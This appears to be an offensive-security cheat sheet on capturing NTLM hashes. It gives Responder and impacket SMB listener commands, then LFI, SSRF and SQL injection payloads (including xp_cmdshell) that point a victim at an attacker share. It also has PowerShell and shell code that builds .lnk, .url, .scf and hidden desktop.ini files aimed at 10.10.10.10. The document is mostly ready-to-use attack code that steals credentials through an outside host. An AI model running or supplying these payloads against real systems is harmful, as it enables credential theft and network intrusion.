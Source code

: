 ```yaml
---
icon: ear
---
```


# Capturing NTLM hashes

## Listener

```bash
responder -I <interface>
```

```
impacket-smbserver share /dev/null -smb2support
```

## Possible Attacks

> https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/

### Via web vulnerability

If you discover a web vulnerability (such as LFI, SQLI, XXE, SSRF, SSTI) that allows you to include remote files, you can exploit it to steal the NTLM hash of the user running the process. For example:

<pre class="language-powershell"><code class="lang-powershell"># LFI
?page=\\attaker\test

# SSRF
?url=file://attaker/test

# SQL Injection
?id=1' union select null,load_file('\\\\attaker\\test'),null-- -
  
  ## MSSQL
  ?id=1' union select null,(select x from OpenRowset(BULK '\\attaker\test',SINGLE_CLOB) R(x)),null-- -
<strong>  ?id=1' union select null,(EXEC xp_cmdshell 'dir \\attaker\test'),null-- -
</strong></code></pre>

### Via .lnk file

```powershell
# With powershell
$targetPath = "\\10.10.10.10\test" 
$shortcutPath = "C:\path\to\your\~shortcut.lnk" 
$WScriptShell = New-Object -ComObject WScript.Shell 
$shortcut = $WScriptShell.CreateShortcut($shortcutPath) 
$shortcut.TargetPath = $targetPath 
$shortcut.Save()
```

### Via .url file

```sh
echo '[InternetShortcut]' > ~shortcut.url
echo 'URL=file:////10.10.10.10/test' >> ~shortcut.url
```

### Via .scf file

> Not working on newer Windows versions.

```sh
echo '[Shell]' > ~file.scf
echo 'Command=2' >> ~file.scf
echo 'IconFile=explorer.exe,3' >> ~file.scf
echo '[Taskbar]' >> ~file.scf
echo 'Command=ToggleDesktop' >> ~file.scf
echo '[InternetShortcut]' >> ~file.scf
echo 'URL=file:////10.10.10.10/test' >> ~file.scf
```

### Via desktop.ini file

> Not working on newer Windows versions.

```powershell
# With powershell
echo '[.ShellClassInfo]' > desktop.ini
echo 'IconResource=\\10.10.10.10\test' >> desktop.ini
attrib +s +h desktop.ini
```

